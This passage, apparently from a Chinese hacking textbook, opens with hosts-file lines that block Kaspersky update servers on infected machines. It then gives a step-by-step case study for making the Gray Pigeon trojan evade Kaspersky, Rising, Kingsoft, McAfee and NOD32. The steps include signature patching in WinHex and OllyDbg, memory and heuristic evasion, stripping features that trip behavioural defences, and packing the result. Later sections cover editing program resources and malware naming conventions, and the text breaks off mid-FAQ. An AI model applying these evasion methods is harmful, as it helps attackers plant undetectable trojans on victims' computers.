127.0.0.1    dnl-us1.kaspersky-labs.com
127.0.0.1    dnl-us2.kaspersky-labs.com
127.0.0.1    dnl-us3.kaspersky-labs.com
127.0.0.1    dnl-us4.kaspersky-labs.com
127.0.0.1    dnl-us5.kaspersky-labs.com
127.0.0.1    dnl-us6.kaspersky-labs.com
127.0.0.1    dnl-us7.kaspersky-labs.com
127.0.0.1    dnl-us8.kaspersky-labs.com
127.0.0.1    dnl-us9.kaspersky-labs.com
127.0.0.1    dnl-us10.kaspersky-labs.com
127.0.0.1    dnl-us11.kaspersky-labs.com
127.0.0.1    dnl-us12.kaspersky-labs.com
127.0.0.1    dnl-us13.kaspersky-labs.com
127.0.0.1    dnl-us14.kaspersky-labs.com
```

其中的 dnl-us**.kaspersky-labs.com 便是卡巴斯基病毒库更新服务器的网址了，当我们向 hosts 文件中填写了以上内容时，不管杀毒软件使用哪个服务器更新，它最终都会指向本机的 IP 地址，自然就更新不成功了。

这就是我们从攻击型反制病毒中学到的一个简单的对抗方法，但是本小节只是给大家举一个具体的例子，这种办法本身并不明智，因为可能由于不能更新病毒库从而导致肉鸡感染其它恶性病毒进而造成不必要的损失，这无论如何也是我们不愿看到的。因此仅仅是希望各位读者能从这个简单的例子中学到提炼新的免杀手法的一种思路。如果我们要与杀毒软件做有效的对抗，就要将研究对象定位为杀毒软件，而并非其他的东西，例如我们是否可以考虑监视杀毒软件设置更改时的一些行为，例如是否向注册表写入了新的键值？是否对硬盘上的某个文件做了更改或是新增了什么文件？如果检测到了的话，那么这就是杀毒软件配置信息保存的地方，据此我们就可以通过修改配置信息而直接修改杀毒软件的设置。借用杀毒软件公司分析病毒木马的手法，我们也可以将其应用在分析杀毒软件的行为上来，我们监视杀毒软件的每一个行为，然后将其分析并整理，相信你会因此而收获不少的！

到这里本章就结束了，也许各位读者都感觉到了，这个章节所讲述的内容大多数都是偏重于理论的。我认为对于某些还未定型的知识，授人以鱼不如授人以渔，这些基础知识虽然显得有些枯燥乏味，但是正像我在本章开头时所讲的那句话一样“以本章的内容作为垫脚石，使得各位读者能从一个比较高的起点出发”。其实写到这里，有关于免杀的所有基础知识基本上就都讲完了，然而免杀当中还有更多有趣的东西等待你去探索，继续努力吧。

## 第九章 免杀技术补遗

> “不要追求十全十美，因为你永远做不到十全十美。”
> —— Salvador Dali（西班牙超现实主义画家）

免杀的基础知识与所有的技巧前八章里就已经讲完了，不知道各位读者是否已经对免杀建立起了一个比较完整的知识结构？例如免杀总共分为多少种常见的手法？它们每个方法又能细分为多少操作技巧？每个技巧的优缺点在哪，以及它们的操作要领是什么？如果你能比较完整的回想起这些内容，那么你应该可以算是个免杀方面的高手了，如果不能完整回想起来，也不用担心，多练习下就可以了。

而这一章所讲的内容就是将前面的内容做一个穿插，或者说是一种复习。当然，在这章里我仍会告诉大家一些小技巧，而且会提出一些新的问题，并去解决它。

### 9.1 综合免杀实例

本小节我将带领大家做一次综合性免杀，并将从头到尾贯穿着以准黑客思想解决问题的方法逐步执行。希望各位读者通过这一小节的学习能体会到“思考流程”的重要性。

#### 9.1.1 策划安排

在每次做免杀之前，我们都要先考虑两个问题，一个是要了解免杀对象的流行程度，其次就是要确定我们此次免杀的目的何在。关于免杀对象的流行程度很容易就能联想到，越流行的病毒或木马免杀起来肯定就越困难。鉴于此，我们自然就可以使用自己所有的免杀手段，痛快淋漓地与杀毒软件做一次对决。反之，我们则要尽量避免将自己所有的免杀技巧全部用在一个并不出名的木马上，我们应该给自己与他人留有余地，只有这样我们才能对以后的情况应对自如，不至于一次就败得很惨。

关于免杀目的，笔者认为这是很重要的。首先如果我们免杀的目标不同，所针对的杀毒软件就会有所差异。例如你想要免杀一个用于个人用户的木马，那么你所面对的杀毒软件有可能是卡巴斯基、瑞星或是金山毒霸；如果你想要免杀一个用于服务器的木马，那么你更可能要面对 McAfee 或 NOD32。很明显，我们所面对的杀毒软件会根据免杀目的的不同而变化，因此这些看似琐碎的小问题其实是很重要的，切不可将其忽略。既然是“综合免杀实例”，那么所选用的免杀目标自然就要是大红大紫的灰鸽子了，因此我们可以用尽所有的免杀技巧。而对于免杀目的，为了增加难度我们就定位为所有用户吧，因此我们目前面对的反病毒产品就是卡巴斯基、瑞星、金山毒霸、NOD32 与 McAfee 这五款杀毒软件。除此之外，还要针对主动防御、启发式扫描与文件流查杀这三种新生病毒防御手段设计出优秀的免杀方案。特别是针对启发式扫描与主动防御这两种查杀手法的应对思路将要贯穿我们整个免杀工作的始末。

#### 9.1.2 设计免杀流程与免杀对策

本小节对于各位读者来讲应该是至关重要的了，我将在本小节主要教大家怎样快速有效地确定免杀操作流程，并对一些难题制作出有效的应对方案。这些是我个人几年对黑客技术学习和实践的一种思想精华，它不仅可以使你的免杀操作变得有效而有序，你同样可以将其应用在其他方面。当我们在做一项较为复杂的免杀工程或其他事情时，首先应确立三点：目标、资源与方案。然后再逐步细化便于执行的最终流程。

- **目标细分：**
    - **原始目标**：我们在打算做这项免杀工程时所确立的最初目标。
    - **最佳目标**：我们在进行仔细的分析后，从而确立下来的趋于完美的目标。
    - **最差目标**：我们在进行仔细的分析后，认为自己所能接受的最差结果，并以此确立的目标。

- **资源细分：**
    - **所需资源**：完成这项免杀工程所需要的各种资源，包含自己所拥有的信息（如木马流行程度、反病毒产品信息等）以及所掌握的知识（如特征码查找、加脱壳、壳变异、反汇编、逆向工程等）。
    - **已有资源**：我们现在已有的资源是否能满足所需资源的要求？在能满足的前提下，我们是否还可以利用已有资源再做一些补充，以使其更加完美？
    - **缺乏资源**：我们针对这项工程所缺乏的资源，包括工具是否充足、是否有足够的实验环境和时间。

- **方案细分：**
    - **取舍方案**：增加新的便于执行的免杀元素（我们可以将免杀当中的一种手法或技巧称之为一个免杀元素），删减执行起来有困难的免杀元素或替换不易执行的免杀元素。
    - **准备方案**：准备所需资源的方案，包括准备所需的各种工具、各种信息以及补充所不具备的知识等等。
    - **执行方案**：执行免杀步骤的具体方案，也是我们最终所需要的方案。

根据以上分类，我总结出了以下流程供各位读者参考，如图 9.1 所示。看到这里或许有些读者会对此不屑一顾，认为没必要弄得这么麻烦，但是我要提醒各位读者的是，任何一个有所成就的黑客都有由他自己设计的或无意间形成的一套“流程”，也正是因这套流程才使得他能使自己所掌握的知识得到最大化的应用，从而取得普通人看似不可议的成果。对于流程本身来说，每个人都有最适合他自己的一套独特的流程，因此流程没有好坏之分，只有适合与不适合之别。一套适合你的流程可以帮助你充分地利用自己手中的资源和快速有效地解决问题，这就是流程的魅力。然而作为刚入门不久的读者来说，也不要企图马上就将这种方法应用自如，毕竟我们还需要一个逐渐适应的过程。接下来我们便可以利用以上的“流程”来设计我们的免杀执行方案了。

（此处对应原图 9.1 流程图）

#### 9.1.3 设计免杀执行方案

我们跟着图 9.1 走，首先我们要设定一个初始的目标，我们的初始目标就是打造一款能过主动防御、启发式扫描与文件流查杀的免杀灰鸽子木马。

接下来是“所需资源”，对于我们来说资源已经基本齐备，而文件流查杀、启发式扫描与主动防御的免杀方法我们也已经学习过了，因此我们现在所缺少的资源就是集齐实验用的杀毒软件。由于这个缺少的资源我们可以补充，所以这不应归为“缺乏资源”。此时的第一步已经出来了，就是：
1. 集齐并配置好实验用的杀毒软件。

为了简化步骤，这里我们就不再对初始目标进行扩充了，因此跳过取舍方案直接进入准备方案。鉴于灰鸽子生成服务端的特性，我们免杀的对象就定位为其 Cache 目录下的 CServer.dat 文件，因为它是灰鸽子未配置的服务端程序，所以我们只要对它进行了免杀处理后，那么日后生成的服务端也就都是免杀的了。此时第二步也就出来了：
2. 免杀对象为 CServer.dat 文件。

接下来我们就要将其分为 5 个步骤，即文件免杀、内存免杀、启发式免杀、数据流免杀与主动防御免杀。鉴于启发式扫描的性质，我们可以将其与文件免杀合为一体，并在修改特征码时尽量不生成新的启发标志。而且根据免杀的操作步骤，我们还可以将文件免杀与内存免杀的工作合为一体。而剩下的数据流免杀与主动防御免杀在这里就要剔除了，因为我们如果要想使服务端逃过它们的追杀，会涉及到压缩以及加密等技术，而木马的默认服务端被压缩或加密后将不能正确地写入配置信息，因此我们制定出了最终两个步骤：

（1）分别对 CServer.dat 文件进行文件免杀与内存免杀。
（2）对已配置成功的服务端进行数据流免杀与主动防御免杀。

我们通过“已有资源”得知，卡巴斯基的特征码查杀与主动防御是所有反病毒软件中最强悍的，而瑞星则因内存查杀和主动防御的特征码而独树一帜，如果我们首先选择比较强悍的杀毒软件为目标的话，那么在一定程度上会减少我们免杀的工作量。所以特征码免杀的执行顺序为：
3. 以卡巴斯基、瑞星、金山毒霸、McAfee 与 NOD32 的顺序依次执行特征码免杀操作。

细心的读者可能发现了我将 NOD32 放在了最后，这样做很显然是为了验证我们前面的免杀工作是否生成了引起警报的标志位，并且在最后还可以做适当的补救。接下来就是进行内存免杀工作了，我们通过调查发现国内的瑞星在内存杀毒中有比较突出的表现，因此内存免杀的执行顺序就为：
4. 以瑞星、金山毒霸、卡巴斯基、McAfee 与 NOD32 的顺序依次执行内存免杀操作。

到这里我们的工作就要进入另外一个阶段了。上面我们已经对 CServer.dat 做了所有我们力所能及的处理，接下来就是配置服务端之后的工作。由于我们要突破主动防御，所以我们在配置服务端时就要抛弃一些会引起主动防御报警的功能，例如注入到系统进程、注册服务与向系统目录写入新文件等操作。因此便有了我们的第五条步骤：
5. 去掉木马服务端中会引起主动防御报警的一些功能。
6. 进行针对金山毒霸的数据流免杀操作。
7. 对木马进行进一步处理，使其在最大限度地保证功能完整性的前提下突破主动防御。如果有必要的话，我们最后还要再对其进行一些例如检测启发式扫描的处理。

到此，我们已经得出一个比较完整的执行方案了：
- 1. 集齐并配置好实验用的杀毒软件。
- 2. 免杀对象为 CServer.dat 文件。
- 3. 以卡巴斯基、瑞星、金山毒霸、McAfee 与 NOD32 的顺序依次执行特征码免杀操作。
- 4. 以瑞星、金山毒霸、卡巴斯基、McAfee 与 NOD32 的顺序依次执行内存免杀操作。
- 5. 去掉木马服务端中会引起主动防御报警的一些功能。
- 6. 进行针对金山毒霸的数据流免杀操作。
- 7. 对木马进行进一步处理，使其在最大限度地保证功能完整性的前提下突破主动防御。

下面我们要做的就是一步一步地去执行它。

#### 9.1.4 按照执行方案执行免杀操作

##### 一、集齐并配置好实验用的杀毒软件

集齐杀毒软件我想不是什么难事，而且几乎所有的杀毒软件都提供了 15 天以上的试用服务，这对于我们用于实验来说已经足够了，关键就是怎样配置好这些杀毒软件。鉴于现在的杀毒软件在逐年向系统底层发展，与系统的关联也变得越来越大，想要保证某些杀毒软件互相兼容是一件很令人头痛的问题。

经过笔者的简单分析，初步确定导致各大反病毒产品之间不兼容的问题是由于一些实时监控功能的开启，因此我们只要将其关闭就可以了。笔者在虚拟机上安装杀毒软件的顺序依次为“卡巴斯基”、“瑞星”、“金山毒霸”、“NOD32”、“McAfee”，各位读者不妨参考下。

1. **卡巴斯基**：安装完成后，我们需要停止它的所有保护功能（如图 9.2 所示）。经过这样设置后，只有当我们需要时打开保护它才会运行，平时保护功能不会自动开启，这对于兼容其他反病毒产品很重要。
2. **瑞星**：按正常安装路线走即可。安装结束后，打开瑞星主界面，选择“设置”→“监控设置”，并将所有“开机启用”前的勾去掉（如图 9.3 所示）。然后选择“设置”→“防御设置”，同样将所有的勾去掉（如图 9.4 所示）。
3. **金山毒霸**：安装完毕后需要把它的开机自启动监控全部停掉。打开主界面后选择“工具”→“综合设置”，在弹出界面中选择“文件实时防毒”，把“开机自启动”前面的勾去掉（如图 9.5 所示）。接下来用同样的方法将“高级防御”与“邮件监控”的开机自启动功能去掉（如图 9.6、图 9.7 所示）。
4. **NOD32**：安装完毕后打开程序主界面，将“启动文件实时监控”前面的勾去掉（如图 9.8 所示）。点击下面的“设置”按钮，在弹出窗口中选择“安全”选项卡，并将“开机时自动加载 AMON”前面的勾去掉（如图 9.9 所示）。接下来选择主界面的“DMON”选项，并点击“卸载”按钮（如图 9.10 所示）。然后用类似的方法依次卸载或停止“EMON”与“IMON”。
5. **McAfee**：正常安装完成后，打开主界面依次禁用“访问保护”、“缓冲区溢出保护”与“按访问扫描程序”这三项（如图 9.11 所示）。

重启计算机后，我们的杀毒软件就算都安装成功了（如图 9.12 所示）。到这里我们就完成了第一步。

##### 二、免杀对象为 CServer.dat 文件

既然将免杀对象定位为 CServer.dat 文件，肯定是要先将它的后缀名更改为“.exe”，否则我们以后的免杀工作会碰到许多不必要的麻烦（如图 9.13 所示）。

#### 三、以卡巴斯基、瑞星、金山毒霸、McAfee 与 NOD32 的顺序依次执行特征码免杀操作

对于 MYCCL 下的特征码定位这里我就不多费口舌了。在修改特征码时要注意，千万不要一开始就拿着 OllyDbg 一通大修，这样会使得我们的免杀工作变得很累，而且很没有乐趣，最重要的是那样会无形中增加木马的启发性标志。因此我们要学会先从简单且实用的修改技巧入手。

我们先从最简单的大小写修改开始。用 WinHex 打开服务端后，按快捷键【Alt】+【G】调出“转移到偏移地址”窗口，并填上第一段特征码的文件偏移量“000A0934”（如图 9.14 所示）。点击确定后便来到了第一个特征码处（如图 9.15 所示）。由于没有可更改项，我们再用同样的方法来到第二个特征码处（如图 9.16 所示）。仍然没有可用项，而到达第三处后我们发现那似乎是一个注册表的键值（如图 9.17 所示），我们完全可以用大小写替换的方式来修改，修改后如图 9.18 所示。第四个特征码处像是一段脚本代码（如图 9.19 所示），一般情况下这种运行在 Windows 下的脚本对大小写也不是很敏感，因此我们同样可以对其用大小写替换法更改。

有的读者可能会有些迷惑，如果它们万一对大小写敏感怎么办？如果敏感的话，那么我们除了将其用“00”删除掉外，就是测试这段特征码的具体范围。我们知道，病毒特征码的定位很少是局限于几个字节的，因为那样做除了会增加病毒防御工作者的工作难度外，还会增大误杀的几率。绝大多数特征码的大小都在几十乃至上百的字节之间，因此我们完全可以想办法在特征码周围下下力气。

第 5-8 个特征码都是类似于第 1、第 2 处的样子，无法用大小写替换的方法修改。到了第 9 处后我们看到特征码为黑客防线的网址（如图 9.20 所示）。改完了之后我们来到第 10 个特征码处，又是一处典型的位于注册表上的特征码（如图 9.21 所示）。

现在我们到达最后一处特征码（如图 9.22 所示），很明显它既不是注册表项又不是什么路径，到 MSDN 上一查才知道这是一个获取或设置读取操作阻止等待数据的时间量的属性，并非 API 函数，所以即使到后期也没有什么好的办法修改，因此我们可以先用大小写替换的方式赌一把，如果确实不行，我们在扩大范围试试。

到现在，仅仅通过简单的大小写替换就已经成功地修改了 11 处特征码中的 5 处，还剩下第 1、2、5、6、7、8 这六处没有修改。接下来我们就应该考虑使用 OllyDbg 了。由于我们用 MYCCL 定位出来的特征码都是用的文件偏移地址，因此我们要先将其转换为虚拟内存地址，在这里推荐各位读者用脑算，当然直接用相关的转换工具也会很方便。

工具转换也可以。我们先从1号特征码开始，用OllyDbg载入服务端CServer.exe后，按快捷键【Ctrl】+【G】调出跟随表达式对话框，并输入我们1号特征码的虚拟内存地址，来到如图9.23所示的地址。由于我们所定义的特征码精度为4个字节，所以由“HEX数据”区的信息可知，有两条半指令可让我们修改。下面我们分析一下这块汇编指令的意思，第一条是一个字交换指令，操作对象为eax与esp。第二条是一个带进位的加法指令，操作对象为esi与esi。因此可以初步推断这两条指令没有明显的逻辑关系，理论上可以利用上下互换法修改，修改完毕后如图9.24所示。为了防止出错，在用OllyDbg修改特征码时要注意经常备份，最好是每修改完一处特征码后就保存一次。此时我们来到第2个特征码处，如图9.25所示，我们4个字节的特征码被包含在了一条指令中，因此我们也就只能拿它下手了，还好这条指令周围同样联系都不大，所以依然可以用上下互换法修改。由于第3、4个特征我们已经用大小写替换法修改完毕，此时直奔第5处特征码即可，如图9.26所示。


由图可知，我们的特征码又被幸运地分配到了三条指令中，再次给了我们很大的修改余地。通过查汇编速查手册可知，第二条指令的“jge”是大于或等于则跳转的指令，我们完全可以将范围缩小点，将它更改为“jg”，也就是大于则跳转。修改后如图9.27所示。第6处特征码如图9.28所示，是一个“add”加法指令，我们可以将其替换为“adc”，也就是带进位的加法指令。第7处的汇编指令则为“jg”，根据第5处特征码的修改思路，我们只需要将其修改为“jge”即可。到此卡巴斯基的特征码就算更改完了，剩下的杀毒软件免杀参照卡巴斯基即可。


要提醒各位读者注意的是，为了保证思路的流畅性，所以这次免杀当中的一些突发事件并没有写进去，例如采用大小写替换的方法虽然简单，但是对于一些热门木马来说免杀效果却不尽人意，所以我们就要考虑用跳转法将其替换到其他地方。

## 四、以瑞星、金山毒霸、卡巴斯基、McAfee与NOD32的顺序依次执行内存免杀操作

关于内存免杀，推荐各位读者使用multiCCL，具体免杀步骤与结果同文件免杀基本一致，主要都是在于更改的技巧，所以下面我就针对各种免杀技巧为各位读者做一次细致的剖析。

特征码修改方法的剖析：

### 1、大小写替换

关于大小写替换的讲解无论是网上还是书本上都讲解得非常多，原因就在于它操作简单，而且原理也比较简单。但是大小写替换真的就像我们所看到的那样简单吗？我并不这样认为。首先，有目共睹的就是大小写替换正在逐渐失去生命力，利用这种方法修改特征码的效果越来越不明显，这除了杀毒软件查杀技术的改良外，太多的人使用这种方法也是原因之一。其次，如果是用大小写修改不成功的话，那么就只剩下两条路可走了，一个是采用跳转法将这段字符放到其他的地方，一个是使用“00”将其删除。有的读者也许会问，例如“上下互换”与“等值替换”就不能使用吗？我的回答是肯定的，在绝大多数情况下，使用这两种方法所取得的效果与直接用“00”删除是一样的。因为我们在确定使用大小写替换时，首先这一定要是一段字符，例如注册表键值、安装路径或是提醒信息等等内容。例如“A V”所对应的汇编指令为：

```asm
inc ecx
mov bh,56
```

如果我们将其上下互换的话，那么更改之后的结果其实就是“V A”，可见原来的字符已经被打乱了，变成了没有意义或是与预期意义不同的字符了。

### 2、用“00”字节填充

所谓的用“00”字节填充，就是将原有的信息全部替换为“00”，说白了就是删除。这是免杀当中最直接有效的强硬办法，代价就是修改完的木马可能会失去部分功能或是直接不能运行。因此，不到万不得已的时候最好不要使用这种方法，不过利用这种方法修改的成功几率还是比较高的。

### 3、加1减1法

这是一种过渡的方法，由于许多地方都要碰到类似于等值替换等操作，而且这些操作是需要修改者有一定的汇编语言知识的，但是绝大多数初学者都不会去看什么汇编。所以一些人根据汇编语言相邻或相近指令的机器码往往相差很小的一个特点，想出了这么个方法，因此这种方法只适用于撞大运，当你掌握一定的汇编语言知识或修改技巧时就要摒弃这种方法。当然，这种修改技巧作为一种候补方案还是可以的。

### 4、空白区域跳转法

免杀当中应用最多的也就是空白区域跳转法了，它的灵活性使得它几乎成为所有修改技巧中应用最广的一种修改方法。对于这种方法大家只要注意一点就可以了，就是在转移时要保证所转移的指令大小足以容纳一条jmp指令。如图9.29所示，我们虽然选中了两条指令，但是由“HEX数据”区不难发现，这两条指令只占用2个字节的大小，而一个完整的跳转指令最起码也需要5个字节的空间，所以此时对其进行转移的话，肯定会损坏下面的第三条指令“add byte ptr ds:[64246900],al”，如图9.30所示，原先位于“00818808”的指令已经被完全破坏掉了。


图9.29　　　　　　　　　　　　图9.30

如果我们将前三条指令转移了呢？由图9.29可知前三条语句的大小为8个字节，足够容纳一条jmp指令了，转移后如图9.31所示，并没破坏位于“0081880E”的第4条指令“and eax,99725A9D”，由于jmp指令只占用5个字节，所以余下的3个空闲字节也被“nop”指令填充掉了。

| 地址数据 | HEX数据 | 反汇编 |
|---|---|---|
| 00819896 | e9 70 00 00 00 | jmp ... |
| 0081989b | 90 | nop |
| 0081989c | 90 | nop |
| 0081989d | 90 | nop |
| 0081989e | 25 D5 A7 25 9D | and eax,99725A9D |

图9.31

### 5、上下互换法

网上有关于上下互换失败的讨论还是比较多的，原因就在于一些人不明白上下互换的局限所在。上下互换法还有局限吗？当然有！如果你要将两条指令互换的话，并且这两条指令是上大下小的话，那么就要先将体积小的指令替换到体积大的指令处才能成功，否则的话就会导致其他语句受损，原理如图9.32所示。

反之，如果两条指令当中下面那条指令大一些的话，就要先移动体积大的指令，再移动小的指令，原理如图9.33所示。其实细心的读者应该发现了，不管怎么样，都是下边的指令先往上移，然后才是上面的指令向下移。而笔者之所以这么讲，是为了使各位读者明白其中的缘由。


### 6、等值替换法

等值替换与各位读者的汇编语言功底是有直接关系的，这个经验不可能是仅凭几段话就能学会的，所以关于等价替换法的修改技巧也就没什么经验可谈了。如果你想将此修改技巧运用熟练的话，唯一的方法就是学习汇编。

## 五、去掉木马服务端中会引起主动防御报警的一些功能。

转眼间已经来到了第5步，这一步的设置工作其实就是第8.5.4节所讲的配置过程，但是暂时先不要对生成的木马做进一步配置，以方便我们随后进行的数据流免杀。

## 六、进行针对金山毒霸的数据流免杀操作。

数据流杀毒技术是一种可以动态分析恶意程序运行时所产生的数据流特征的技术，这种查杀方法我们可以通过第5.4节所讲的方法突破，这里不再多讲。

最后我们要做的就是为我们的木马加上一个压缩壳，并用第8.5.4节所讲的知识完成最后的打包配置。到此，一款能过几乎现今绝大多数主流杀毒软件的木马就诞生了。通过这个免杀实例，我主要向大家传授了两种信息，一个是设计系统执行方案的重要性，另一个就是各种修改特征码技巧的经验之谈。希望各位读者在读完本小节之后会感到自己在技术上有实质性的提升。

### 9.2 免杀与汉化

免杀与汉化猛地听起来似乎没有什么关系，但是从操作的目标上来讲，它们都属于是一种对PE文件资源进行修改或增减的技术。通过这种技术你所能做的事情就不仅限于汉化了，我们甚至可以按自己的意愿去修改几乎任意一款软件。因此汉化对于免杀来说，有许多技巧与思路还是值得我们免杀爱好者进行借鉴的。

### 9.2.1 VB程序的汉化与修改

单从汉化的角度来讲，你如果想汉化什么语言，最好就要对相应的语言有一个最基本的了解，例如我们将要进行的VB汉化项目。对于VB汉化应该算是最简单的了，我们可以直接使用一款名为“VBExplorer”的软件对未加密的程序进行汉化，打开后如图9.34所示。我们拿已脱壳的NBSI来做实验，打开后如图9.35所示，通过“工程”栏目可以看出来NBSI在编译时的工程名为“SI3”，这个工程下有两个窗体，分别是“Main”与“Frmset”。我们点击“Main”后“属性”栏目便会出现关于这个窗体的信息。由“属性”的下拉框中的信息“Main Form”可知，现在“属性”栏目中显示的是“Main”窗体中“Form”控件的属性。并且通过属性中“Caption”的值“NBSI 3.0”就可以初步断定这就是在NBSI左上方显示的程序名称了，现在我们将其更改为“AlPass注入工具[NBSI]”后，并按快捷键【F5】查看修改之后的效果，如图9.36所示。


图9.34    图9.35


图9.36

如果想保存修改结果的话，再按快捷键【Ctrl】+【S】即可，就是这么简单。如果我们想更改其他的信息，例如某一个按钮，我们先要点击显示“Main Form”信息的那个下拉框，如图9.37所示。这里显示的就是“Main”窗体中的所有控件了，包含在窗体底部显示数据的“StatusBar”控件，显示文本的标签“Label”控件，与执行动作的按钮“CommandButton”控件。既然我们要修改一个按钮，那么肯定就要寻找“CommandButton”控件了，选择“CommandButton”控件后“属性”栏目显示如图9.38所示的信息。通过“Caption”属性的值“Reload”可知这应该就是NBSI中的重启按钮了，通过“位置”树分支我们发现还可以控制这个按钮的外观，其中的“Left”与“Top”属性代表这个按钮离窗体的左侧是多远，离窗体的顶部又是多远。另外“Width”、“Height”属性则分别代表控件“CommandButton”本身的宽与高。

为了使效果明显，我们首先将“Caption”属性的值汉化为“重载”，并将它的宽与高分别修改为1500，修改后运行如图9.39所示。其实除此之外这个软件的功能还远不止如此，通过对软件注入语句的修改，完全可以将其打造为一个真正意义上的内部加强版的注入工具，不过这就要等着各位聪明的读者去实现了。


### 9.2.2 C程序的汉化与修改

C系列语言作为适用范围最广、最成功的计算机语言，针对它的反编译工具也有很多，然而在这些反编译工具中，功能比较强大的还要数ResScope，这是一款国人开发的软件。这个软件的功能本身并不是多么强大，但是它对资源的适应性很好，有一些其他反编译工具读取不出来的资源它都能顺利读取并更改。打开ResScope后如图9.40所示，这款软件的主要工作区在“资源”栏目中，我们已经打开一个用C系列编写的程序，“资源”栏目中的每一项内容我们都可以随意修改，其中名为“Menu”、“Dialog”与“String”就是程序中的菜单、对话框与字符，而其他的例如“Accelerator”里面包含着程序运行时所注册的快捷键。首先展开“Menu”下的第一个资源，如图9.41所示，我们随意更改一个，点击“菜单预览”按钮查看我们的修改效果，如图9.42所示，如果对效果满意的话，直接按快捷键【Ctrl】+【S】保存即可。其他用法也都大同小异，各位读者可以自己上机试验一下。


图 9.40 图 9.41


图 9.42

#### 9.2.3 Delphi 程序的汉化与修改

由于 Delphi 使用的并不是标准资源，所以对于 Delphi 的修改应该算是比较费事的，但是这依旧难不倒有工具做后盾的我们。想要比较好地汉化 Delphi 程序，还要靠专业性比较强的 PE Explorer，用 PE Explorer 打开一个程序后如图 9.43 所示。此时按快捷键【Ctrl】+【R】后即可进入资源编辑的界面，如图 9.44 所示。

读者看到截图后肯定不免要兴奋一阵了，资源的名称都汉化过来了，我们修改时岂不是更加方便了！但是不幸的是事实总是残酷的，由于 Delphi 程序采用的不是标准资源，所以这里的“对话框”与“字符串”资源中根本就没有我们要找的信息，我们要找的信息在名称为“RC 数据”的资源项里。

展开“RC 数据”后如图 9.45 所示，前两项数据与我们无关，假如我们现在要编辑第三个数据“TADDRULE”的话，只需要双击它便会弹出一个针对“TADDRULE”子资源的编辑界面，如图 9.46 所示。由图可知我们已经将“TADDRULE”子资源“Caption”属性的值改为了汉字“添加规则”，修改完毕后点击中间的“应用按钮”即可顺利保存了。

关于汉化的介绍，到此就告一段落了，本小节意在给有汉化爱好的读者开一个头，将各位初步带入汉化这一充满魅力的技术领域。汉化的技术实质并不在于使用工具，如果要想成为真正的汉化高手，各位读者还要有一段不短的路要走。


### 9.3 病毒命名规则初探

病毒与木马的出现虽已有数十年的历史，但是直到目前为止反病毒界依然没有一个统一的命名标准，病毒发展过快便是其中的一个重要原因，学会读懂病毒命名对于一个免杀爱好者来说是必要的技巧，我们需要知道经过我们修改的恶意程序对于反病毒厂商来说有什么变化，而这个信息就要从这个程序的病毒名来获取。第一套应用于反病毒的命名规则是由计算机反病毒研究组[CARO]的创始人于1991年制定的，虽然对于目前日新月异的计算机病毒来说，CARO的命名规则已经有些过时了，但是它仍然是大多数反病毒公司所采用的命名标准。CARO的计算机病毒命名规则如下所示：

```
<malware_type>://<platform>/<family_name>.<group_name>.<infective_length>
<variant><devolution><modifiers>
```

看到这么复杂的格式，各位读者可能觉得有些头晕，其实上面所有的名称组成部分只有 `<family_name>` 是必须有的，其它的是可以选择的，事实上只有极少数病毒恶意程序才会应用到以上的所有命名组合。而作为我们的读者，没必要搞清楚以上所有命名的含义，我们只需要搞明白其中的三组即可：

- 1. `<malware_type>://`
  这一部分位于命名的首部，它表明了这是一个什么类型的病毒，例如“病毒”“木马程序”“风险软件”或“工具包”等等。
- 2. `<platform>`
  这个前缀表明了此病毒正常运行时所需要的本地环境，例如“Win32”或“VBS”等等。
- 3. `<family_name>`
  这是程序命名的最关键的部分，它有着比较严格的要求，例如要求族名必须是一个对于病毒最有概括性的名称、全世界的族名不能重复、不能使用商标、地名、人物名等，并且不能使用恶意程序作者暗示想要使用的名称等等。

由族名上可以发现国内的反病毒领域在这块做得还不是很完善，有一些病毒或木马的命名很明显是不符合规定的。为了使知识更为完整，这里我列出一些公认的病毒简称，以便于各位读者以后作为一个有用的知识储备。

- 1. 病毒【Virus】：一种递归地复制自己或演化体，并控制系统使自己不断繁殖的一种程序。
- 2. 蠕虫【Worm】：一种有能力在网络中传播的病毒。
- 3. 木马【Trojan】：一种简单的可以控制感染者电脑的恶意程序，具有明显的迷惑性。
- 4. 后门【Backdoor, Trapdoor】：黑客用来远程连接控制系统的工具，可为黑客提供非法权限。
- 5. 下载者【Downloader】：在系统中隐藏地下载并执行其它恶意程序的一种恶意软件。
- 6. 漏洞利用程序【Exploit】：可以利用某一种漏洞执行攻击的恶意程序。
- 7. 注入程序【Injector】：可以直接将活动的病毒代码安装到内存中的恶意程序。
- 8. 邮件蠕虫【Mailer, Mass-Mailer, Email-Worm】：通过邮件传播的蠕虫病毒。
- 9. 细菌【Germ】：第一代病毒，是病毒还不可以感染的一种形式。
- 10. 投放器【Dropper】：是第一代病毒的“安装程序”，将其装入引导区。
- 11. 逻辑炸弹【Logic Bomb】：本身为合法程序，在编译时故意写入需触发的恶意功能。
- 12. 兔子【Rabbit】：一种特殊的计算机蠕虫。
- 13. 章鱼【Octopus】：一种非常复杂的蠕虫，它包含一组恶意程序，分别存在于多台主机中。

好了，有了上面的知识我们一起来看一下几个计算机病毒的例子吧：

| 病毒名称 | `<malware_type>://` | `<platform>` | `<family_name>` |
|---|---|---|---|
| Trojan.Win32.Agent.lqi | Trojan | Win32 | Agent |
| Backdoor.Win32.Hupigon.dbfe | Backdoor | Win32 | Hupigon |
| Email-Worm.VBS.DDV.a | Email-Worm | VBS | DDV |

到此，有关“病毒命名规则”的简单介绍就为大家讲到这里，对其感兴趣的读者可以自己查找相关的资料。

## 9.4 关于免杀的几个FAQ

1、怎样才能学好免杀？
答：学好免杀的最好方法就是思考，其次是上机实践。如果你想学好免杀，就要在学习相关知识时始终思考着将其应用到免杀当中会有什么效果，或者它是否可以应用到免杀当中？此外多多接受新鲜的知识并学习他人最新的免杀技巧也是必须的。

2、学会免杀后我都能做什么？
答：你可以将病毒与木马玩弄于股掌之间，你可以使任意一款木马逃脱任意一款杀毒软件的查杀！除此之外，你可以由免杀更为轻松的转型为逆向工程、缓冲区溢出的高手！

3、安装完杀毒软件后系统经常出现奇怪的问题，怎么办？
答：那是因为杀毒软件的监控功能影响了程序的运行，你可以关闭杀毒软件的监控功能试试。

4、为什么我按照书本的步骤去做，但却总是不成功？
答：书中的每个例子都是经过笔者一一实践过的，如果不成功的话应该是你的操作方法还有问题。

5、有一些知识似乎很难理解，我如果不去看那些内容能学好免杀吗？
答：如果这样的话，你能学会免杀，但是不能学好免杀。

6、为什么定位特征码的时候所生成的样本会全部被杀？
答：那是因为你的分块个数过少导致的，建议增多分块个数重新实验。

7、为什么用通用跳转法修改特征码还会导致程序运行错误？
